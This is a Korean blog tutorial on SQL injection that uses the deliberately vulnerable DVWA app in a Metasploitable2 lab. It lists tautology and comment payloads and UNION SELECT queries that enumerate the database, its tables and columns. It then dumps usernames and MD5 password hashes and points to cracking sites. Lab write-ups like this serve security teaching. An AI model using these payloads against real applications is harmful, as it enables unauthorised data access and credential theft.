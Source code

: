 ```yaml
---
title:  "웹 보안 - SQL Injection 개념 및 실습"
excerpt: "DVWA를 활용한 SQL Injection 실습"

comments: true
categories: web-security
tags: [sql-injection, dvwa]
toc: true
toc_sticky: true
 
date: 2022-05-04-22:05
last_modified_at: 2022-05-04
---
```


### SQL Injection 원리
* * *
1. 로직이 참이 되도록 함 : and, or
   - True and false = False
   - True or False = True
   - ' or 'a'='a

2. 주석처리 : 뒤에 처리되지 않고 남는 부분에 SQL 에러를 발생시킴 --> 주석처리로 무효화
   - Oracle, MS-SQL : --
   - MySQL, MariaDB : #
   - ' or 1=1--
   - ' or 1=1 #

3. 중첩문을 사용
   - 앞에 SELECT 문이 있으면 UNION SELECT 로 이어가는 방법
   - 앞에 SELECT 문이 있는데 UPDATE 문을 사용해서 

### DVWA 실습
* * *
#### 환경세팅
1. VMWare Player 에서 metasploitable2 실행
2. metasploitable2 의 ip를 web brower 주소창에 입력
3. DVWA 클릭
4. DVWA Security > security level > low로 설정

#### SQL injection 탭에서 한번에 다 출력 되도록 해보기
- 1, 2, 3, 4, 5 순서대로 입력해보기

**sql 문을 유추해보기**

- select firstname, surname from ~~ where id = '~'
- 뒤에 있는 single quotes를 닫아버리고 or 연산으로 무조건 true로 만들기

**(방법 1) 주석을 이용**

- ' or 1=1 #
- ' or 2=2 #

![](../../assets/images/20220531-024740.png){: .center}

**(방법 2) 뒤에 있을 single quotes 활용**

- ' or 'a'='a

![](../../assets/images/20220531-024745.png){: .center}

#### 로그인에 필요한 ID 와 Password 알아내기

- select 문을 자유자재로 써야하기 때문에 UNION SELECT를 이용할거임.
- **필요한 정보**
  - user가 저장된 table 명
  - id, password 가 들어갈 column 명

cf.union select 는 기존 select 문과 칼럼수가 동일해야 함
##### 1. DB 이름 알아내기

```sql
' union select database(),null #
```

![](../../assets/images/20220531-025134.png){: .center}

- Database 이름 : **dvwa**

##### 2. Table 이름 알아내기

- 알아낸 Database 이름으로 mysql, mariadb의 전반적인 정보가 모두 담겨있는 information_schema Database를 이용하여 알아낼거임.
- 이때 information_schema.tables 에서 " . " 의 의미는 지금 dvwa 데이터베이스에 있으므로 명확하게 database 이름을 정해주고 해당 데이터베이스 안의 'tables'라는 테이블에 접근해야 함.

```sql
' union select table_name,null from information_schema.tables where table_schema = 'dvwa' #
```

![](../../assets/images/20220531-025316.png){: .center}

##### 3. Column 목록 조회

- 위에서 알아낸 table명 중 가장 그럴싸한 users 테이블로 결정
- 여기서도 information_schema.columns 테이블에서 table_name이 users인  column_name 을 조회 
- 이를 sql로 나타내면 아래와 같다.

```sql
' union select column_name, null from information_schema.columns where table_name='users' #
```

![](../../assets/images/20220531-025628.png){: .center}

- ID가 들어있을 법한 column : user,
- password가 들어있을 법한 column : password

##### 4. users table 에서 id, password 조회

- 위의 과정을 통해 테이블 정보, id가 들어있을 칼럼, password가 들어있을 칼럼을 모두 알아냈으므로 아주 간단한 select문을 사용할 수 있다.

```sql
' union select user, password from users #
```

![](../../assets/images/20220531-025714.png){: .center}

**GOOD!**
- 아이디와 패스워드 모두 알아냈다.
- 이제 확인만 해보면 되는데... 비밀번호가 이상한 값이다.
- 이는 DB에서 비밀번호를 저장할때 해쉬함수로 변환해서 저장하기 때문이다.
- 먼저 어떤 해쉬 함수를 사용했는지 유추할 필요가 있는데
- 해쉬 함수의 특징 중 하나인 모든 해쉬값의 길이가 일정하다는건데, 
- 해쉬 함수들의 길이를 한번 되새겨보자.

<https://ssy02060.github.io/cryptograpy/hash-fucntion/>

- MD5 : 128 bit
- SHA1 : 160 bit
- SHA2-256 : 256 bit
- 해쉬함수의 대한 자세한 내용은 아래 링크 참고

- admin 의 password 해쉬 값은 5f4dcc3b5aa765d61d8327deb882cf99 으로 32자 이다.
- HEX 값은 한글자 당 4bit이고, 32자이므로 4*32 = 128bit 임을 알 수 있다.
- 결론 : md5 해쉬함수로 변환되었음을 알 수 있다.

**해쉬 값을 크래킹해주는 사이트**
<https://hashes.com/en/decrypt/hash>
<https://crackstation.net/>

![](../../assets/images/20220531-030211.png){: .center}

- 여기서 구한 비밀번호 평문과 ID로 DVWA의 Brute Force 탭에 로그인을 하면 아래와 같이 Welcome to 로 환영해주는 것을 알 수 있다.

![](../../assets/images/20220531-030216.png){: .center}

**GOOD!**